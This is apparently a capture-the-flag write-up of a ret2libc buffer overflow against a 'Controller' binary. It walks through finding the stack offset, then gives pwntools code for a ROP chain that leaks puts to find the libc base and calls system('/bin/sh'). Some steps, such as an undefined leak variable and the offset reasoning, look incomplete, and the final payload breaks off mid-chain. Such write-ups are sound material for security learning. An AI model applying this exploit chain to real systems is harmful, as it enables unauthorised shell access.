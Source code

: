 ### Flow of the attack

#### 1. Finding out the right offset
When analyzing the code with Ghidra, we see that `char local_28 [28];` after 28 characters we access the stack.

However I like to check the right amount in GEF:
```
[+] Found at offset 40 (big-endian search)
```
So the right offset is 40 but our payload contains `/bin/sh` string which is 8 characters so we set the offset to 32

#### 2. Leak libc address using puts
Controller binary contains a `puts` function which we can use to find out libc address. First we leak the `puts` address and calculate the libc base address with it.

We need to continue the flow of the program, so let's call main function at the end of the payload.

```python
#Base gadgets
ret_addr = (rop.find_gadget(['ret']))[0]
pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0] # pop rdi; ret
log.info(f"pop rdi @ {hex(pop_rdi)}")
log.info(f"return address @ {hex(ret_addr)}")

#STAGE 1.
log.success("Beginning STAGE 1.")
got_puts = elf.got["puts"]
plt_puts = elf.plt["puts"]
plt_main = elf.symbols["main"]
log.info(f"got_puts @ {hex(got_puts)}")
log.info(f"plt_puts @ {hex(plt_puts)}")
log.info(f"plt_main @ {hex(plt_main)}")

payload = junk
payload += p64(ret_addr)
payload += p64(pop_rdi)
payload += p64(got_puts)
payload += p64(plt_puts)
payload += p64(plt_main)

libc.address = leak - libc.symbols["puts"]
```

#### 3. Create the payload to achieve a shell
The final payload is super basic.

Basically we just call return twice (for some reason remote needed second return), then pop RDI and enter the `/bin/sh` into the RDI register. After that we can just call a system function and we get a shell.

```python
#STAGE 2.
print()
log.success("Beginning STAGE 2.")
bin_sh = next(libc.search(b"/bin/sh")) # Libc /bin/sh address
system = libc.symbols["system"] # libc system address
log.info(f"bin_sh @ {hex(bin_sh)}")
log.info(f"system @ {hex(system)}")

#Crafting the final payload
payload = junk
payload += p64(ret_addr)
payload += p64(ret_addr)
payload += p64(pop_rdi)
```